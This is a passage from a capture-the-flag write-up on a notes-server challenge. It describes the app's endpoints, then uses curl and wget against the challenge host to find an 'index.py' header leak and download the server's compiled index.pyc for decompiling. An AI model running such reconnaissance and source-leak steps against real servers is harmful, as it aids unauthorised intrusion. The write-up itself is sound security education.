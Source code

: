 So in order to get the db stored on the server, the URL `/private`
should be requested, authenticated by the cookie `auth`.

Note, that `LoginActivity.register()` uses the URL endpoint `/register`
with POST parameter `username` (as hex encoded string).
This API call returns the `aaa-bbb` format access token (if success,
username must be unique!).

### information leak: server side code

Let us now explore the HTTP headers:

```
$ curl https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/ -I
HTTP/2 200 
x-served-by: index.py
date: Sun, 25 Jun 2017 12:12:41 GMT
expires: Sun, 25 Jun 2017 12:22:41 GMT
etag: "HRNRyw"
x-cloud-trace-context: b816262e0f5a9cffbfbc8296c9694ddc
content-type: text/html
server: Google Frontend
cache-control: public, max-age=600
content-length: 507
age: 3
```

Note the `x-served-by: index.py` header. This may mean that
the service engine is a Python script called `index.py`.
If there is a Python script, there may be `.pyc` compiled
Python code as well (in particular, that we have the hint above ;) ).

```
$ wget https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/index.pyc
--2017-06-25 14:16:42--  https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/index.pyc
Resolving notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com... 216.239.38.21, 216.239.32.21, 216.239.34.21, ...
Connecting to notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com|216.239.38.21|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-python-code]
Saving to: 'index.pyc'

index.pyc                    [ <=>                            ]   5.77K  --.-KB/s    in 0.002s  

2017-06-25 14:16:42 (3.45 MB/s) - 'index.pyc' saved [5911]
```

Great! We have the compiled Python bytecode of the server side code.
It would be much more better to have the source, not just the compiled
bytecode.

### decompiling Python bytecode

Decompiling is not difficult using e.g.
[pycdc](https://github.com/zrax/pycdc):
